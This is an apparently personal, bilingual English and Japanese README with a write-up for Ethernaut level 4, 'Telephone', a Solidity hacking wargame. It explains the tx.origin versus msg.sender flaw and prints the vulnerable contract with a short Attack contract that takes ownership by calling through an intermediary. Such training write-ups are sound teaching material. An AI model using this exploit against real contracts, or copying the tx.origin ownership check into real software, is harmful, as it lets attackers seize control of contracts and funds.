



<!-- @format -->
# English README　[Jump to Japanese Version](#japanese)

# Ethernaut Solutions
- The Ethernaut is a Web3/Solidity-based coding wargame, played in the Ethereum Virtual Machine. 
- Each level is a smart contract that needs to be 'hacked'.

- Here are the writeups of my solutions levels I cleared. 
** I will not recommend you to look at solutions I wrote. Solve it yourself for your learning 😛 **

# How to use Ethernaut
- To use ethernaut, you need to use the console from the developper tool of your browser in the first place.
- If your confortable with Foundry and Methods call using `cast` and `send`, you can also solve problem from Foundry framework.
- If you are not confortable yet with ABI, then it is a great way to learn about it and how to call any contract by external calls.
- In higher difficulty levels, you will need to wrote smart contracts and interfaces to hack some smart contract externally for clearing levels.

## Ethernaut 4. Telephone

The goal is to become the Owner of the smart contract.
- In the `Telephone` smart contract, there is a logic that if transaction made that is not from  `tx.origin` we can become the owner.
- It is a problem to show what to use when it comes to the transaction origine. `tx.origin` or `msg.sender` .
- The `tx.origin` global variable refers to the original external account that started the transaction while `msg.sender` is a direct transaction from an user.

<br/>
<p align="center">

</p>
<br/>

- So we just need to call `changeOwner()` from an external contract. (Which is equal to, not being the same address when calling as the original call)

** Change the Telephone contract address by yours in the below code　**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

contract Attack {
    Telephone public telephone =
        Telephone(0xE6Ace0cC5797Ad1E332448f4FC44E2231046D1e7);

    function changeOwner(address _owner) public {
        telephone.changeOwner(_owner);
    }
}
```

Level is completed.

<br/>
<p align="center">

</p>
<br/>

<a name="japanese"></a>
# 日本語版のREADME

# Ethernautの解決策
- Ethernautは、Web3/Solidityベースのコーディングウォーゲームで、Ethereum Virtual Machine (EVM) でプレイされます。
- 各レベルはハッキングする必要があるスマートコントラクトです。

これはクリアしたレベルの解決策です。
**解決策を見ることをお勧めしません。学習のために自分で解決してください 😛 **

# Ethernautの使用方法
- Ethernautを使用するには、まずブラウザの開発者ツールからコンソールを使用する必要があります。
- Foundryとcastおよびsendを使用した方法の呼び出しに慣れている場合、Foundryフレームワークから問題を解決することもできます。
- まだABIに慣れていない場合、それを使用して任意のコントラクトを外部呼び出しで呼び出す方法について学び、理解するのに最適な方法です。
- より高難度のレベルでは、スマートコントラクトとインターフェースを作成して、いくつかのスマートコントラクトを外部からハッキングするために解レベルをクリアする必要があります。

## Ethernaut 4. Telephone

目標は、スマートコントラクトの所有者になることです。
- `Telephone`スマートコントラクトでは、`tx.origin` からのトランザクションでない場合、オーナーになる仕組みがあります。
- トランザクションの発生元を示すときに、`tx.origin` または `msg.sender` を使用するかどうかは問題です。
- `tx.origin` 変数は、トランザクションを開始した元の外部アカウントを参照しますが、`msg.sender` はユーザーから直接のトランザクションです。

<br/>
<p align="center">

</p>
<br/>


- 外部のコントラクトから `changeOwner()` を呼び出すだけで、（元の呼び出しと同じアドレスで呼び出さない限り）オーナーを変更できます。

** 下記のTelephoneのアドレスを変更して　**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

contract Attack {
    Telephone public telephone =
        Telephone(0xE6Ace0cC5797Ad1E332448f4FC44E2231046D1e7);

    function changeOwner(address _owner) public {
        telephone.changeOwner(_owner);
    }
}
```
<p align="center">

</p>
<br/>

レベルが完了。

<br/>
<p align="center">

</p>
<br/>
